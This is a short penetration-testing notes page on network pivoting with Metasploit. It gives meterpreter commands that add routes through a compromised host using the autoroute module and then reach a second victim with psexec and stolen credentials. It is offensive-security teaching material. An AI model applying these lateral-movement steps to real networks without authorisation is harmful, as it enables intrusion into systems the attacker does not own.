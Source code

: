# e - Pivoting

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# View the Metapreter Routing Table.
msf> route print # at 1st it is empty.

# ------------------------------------ Scenerio 1
# assuming we successfully exploited victim 1, and want to be able to exploit victim 2 through victim 1, we must add victim 2 ip subnet to Meterpreter 1st. We will gain access to victim 2 using the "psexec" module because we have creds.
# add routes using the autoroute module
msf> use post/windows/manage/autoroute
msf> options
msf> set SESSION <session_number>
msf> set SUBNET $ip_subnet
msf> run
msf> route print # we should see the added route now.
# now we can directly exploit victim 2 from our Kali machine.

# ------------------------------------ Scenerio 2
# But what if we want to exploit victim 2 through victim 1 and not through our kali? we can go back to the "auto route" module and add the victim 1 subnet to the routing table, then in "psexec" module, we can change the LHOST option to victim 1 IP address, then run. Use wireshark to verify the traffice flows from victim 1 to victim 2.
```
{% endcode %}

